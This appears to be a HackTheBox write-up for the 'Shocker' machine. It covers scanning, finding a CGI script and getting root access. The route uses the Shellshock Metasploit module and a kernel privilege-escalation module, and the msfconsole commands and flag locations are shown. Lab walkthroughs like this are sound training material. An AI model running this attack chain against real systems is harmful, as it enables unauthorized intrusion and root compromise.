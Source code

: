 ```yaml
---
layout: page
title: HackTheBox Shocker Writeup
---
```


By abusing a known exploit named [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), I was able to get initial access onto HackTheBox's Shocker machine. For this, I used the metasploit exploit module `apache_mod_cgi_bash_env_exec`. Privilege escalation was pretty simple, did more enumeration to find suggested metasploit modules which one ended up privilege escalating my permissions to root.

### Enumeration 

Starting of with a standard enumeration scan: ```nmap -sC -sV -oA shocker 10.10.10.56```. Bellow is the output:

![image](https://user-images.githubusercontent.com/41026969/72769401-8d662100-3bc8-11ea-91a9-1633f24b6da5.png)

Port 80 which is used for HTTP is open to us. Checking out what the main page is to see if there's any clues:

![image](https://user-images.githubusercontent.com/41026969/72771202-23507a80-3bce-11ea-8efd-7463d2184f81.png)

We see that the home page is just an image. Next, I decide to enumerate to see if there's any interesting directories. 

The first tools I use is ```gobuster``` which is a CLI tool to bruteforce the websites files/directories. Here are the results:

![image](https://user-images.githubusercontent.com/41026969/72770980-7bd34800-3bcd-11ea-95a8-30e3ce733307.png)

Since gobuster didn't pick anything up, I decide to use dirbuster, which is a similar tool excepted it has a graphical interace to see if it picks up anything. Here are the settings that I used:

![image](https://user-images.githubusercontent.com/41026969/72772490-0b7af580-3bd2-11ea-8b11-6b01c06a3bad.png)

Here's what dirbuster finds:

![image](https://user-images.githubusercontent.com/41026969/72773203-5f86d980-3bd4-11ea-83ac-a88d269447a5.png)

There are a coupe interesting directories that dirbuster finds:

- ```/cgi-bin/```
- ```/server-status/```

##### Why gobuster didn't pick up /cgi-bin/
Because of the way gobuster checks for files/directories, it doesn't add a ```/``` at the end of the file name. So when visiting ```10.10.10.56/cgi-bin```, the page does not exist. However on dirbuster, this is account for so it also tries ```10.10.10.56/cgi-bin/``` which is a valid. This can be confirmed because if you use the wordlist in ```/usr/share/wordlists/dirb/small.txt``` it contains both ```cgi-bin``` and ```cgi-bin/```  in the list of words so it picks it up the ```cgi-bin/```. For gobuster, you can add the ```-f``` flag to append ```/``` at the end.

It looks like dirbuster didn't find any files in each of those directories though. Doing research on the ```[cgi-bin``` directory and reading into [the CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts) I learned a bit how it works. Basically everytime there's an HTTP call to a script file in the ```address.com/cgi-bin``` directory, instead of sending the file from the local server, the server runs that file locally and then returns the output to the web page. Reading into the security part of the wiki page ```In common with a number of other scripts at the time, this script made use of a function: escape_shell_cmd(). The function was supposed to sanitize its argument, which came from user input and then pass the input to the Unix shell, to be run in the security context of the web server. The script did not correctly sanitize all input and allowed new lines to be passed to the shell, which effectively allowed multiple commands to be run. The results of these commands were then displayed on the web server. If the security context of the web server allowed it, malicious commands could be executed by attackers.```

Doing further research I come across [the Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This is because one of the attack vectors for Shellshock is CGI. According to the wiki page ```When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from the request into the environment variable list and then delegates the request to a handler program. If the handler is a Bash script, or if it executes one for example using the system call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.``` 

With this information I decide to do a new dirbuster scan in that directory:

![image](https://user-images.githubusercontent.com/41026969/72947942-b5cd5700-3d51-11ea-8eef-4259175bf02a.png)

In the picture above, I start the directory/file scanning in the URL: ```http://10.10.10.56/cgi-bin```. And given what is read in the wiki pages, I add some file extensions: python, perl, and bash.

Here are the results of the scan:

![image](https://user-images.githubusercontent.com/41026969/72948083-1f4d6580-3d52-11ea-920b-3a6c7dff329c.png)

This time, we see there's a ```user.sh``` inside the ```cgi-bin``` directory! 

Doing some research I come across [this Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec) with a metasploit module. 

Here's setting the correct options:

![image](https://user-images.githubusercontent.com/41026969/72995812-8eb16c80-3dc7-11ea-8a03-7d01ef98bd4a.png)

Running the module, we get a meterpreter session! Doing ```getuid``` and ```sysinfo``` outputs the following:

![image](https://user-images.githubusercontent.com/41026969/72996111-1a2afd80-3dc8-11ea-9c72-0b3b55752829.png)

Doing the meterpreter command ```shell``` gives us a local shell to work with. Doing a ```whoami``` check shows we are user ```shelly```. Looking around the computer, eventually I land in ```/home/shelly``` and doing an ```ls -la``` check there reveals the ```user.txt``` flag!

##### Privesc
To get a list of potential exploits that can work against this box, I use metasploit's suggester module: 

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

Running the module we get a few results:

![image](https://user-images.githubusercontent.com/41026969/72999796-e4891300-3dcd-11ea-9910-8f8d35893c59.png)

I try the first module that the box ```appears to be vulnerable``` by: ```linux/local/bpf_sign_extension_priv_esc```.

Setting the correct options:

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/bpf_sign_extension_priv_esc
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > show options

Module options (exploit/linux/local/bpf_sign_extension_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set SESSION 1
SESSION => 1
```

At first, when I run the exploit, I get a ```[*] Exploit completed, but no session was created.```. Looking into the settings I try something different by setting the LHOST (local host) to my HackTheBox address:

```
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set LHOST 10.10.14.48
LHOST => 10.10.14.48
```

Then rerunning the exploit, this time we get a second meterpreter session!

Doing a ```getuid``` in meterpreter or ```whoami``` in the local shell, it shows we have root access:

![image](https://user-images.githubusercontent.com/41026969/73001458-801b8300-3dd0-11ea-8532-369ac5ec5dff.png)

Looking around the box, I come across the root flag in ```/root/root.txt```

### Flags
- user: ```/home/shelly/user.txt```

- root: ```/root/root.txt```

### Sources

- [CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts)
- [Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
- [mod-CGI bash environment Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec)
- [Shocker video writeup by IppSec](https://www.youtube.com/watch?v=IBlTdguhgfY&)